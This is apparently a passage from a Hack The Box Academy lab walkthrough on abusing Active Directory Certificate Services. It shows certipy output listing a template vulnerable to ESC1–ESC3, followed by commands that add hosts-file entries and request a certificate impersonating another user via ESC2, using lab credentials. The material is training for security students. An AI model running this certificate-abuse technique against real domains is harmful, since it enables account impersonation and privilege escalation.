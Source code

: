 ```
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Domain Users
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Administrator
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'LAB.LOCAL\\Domain Users' can enroll and template can be used for any purpose
      ESC3                              : 'LAB.LOCAL\\Domain Users' can enroll and template has Certificate Request Agent EKU set
```

Before abusing `ESC2`, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC2`, students need to use the `req` command of `certipy`, specifying the template `ESC2` for the `-template` option and the `UPN` `Matilda` for the `-upn` option; students will attain a `PFX` certificate for the `Matilda` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC2 -upn Matilda
```
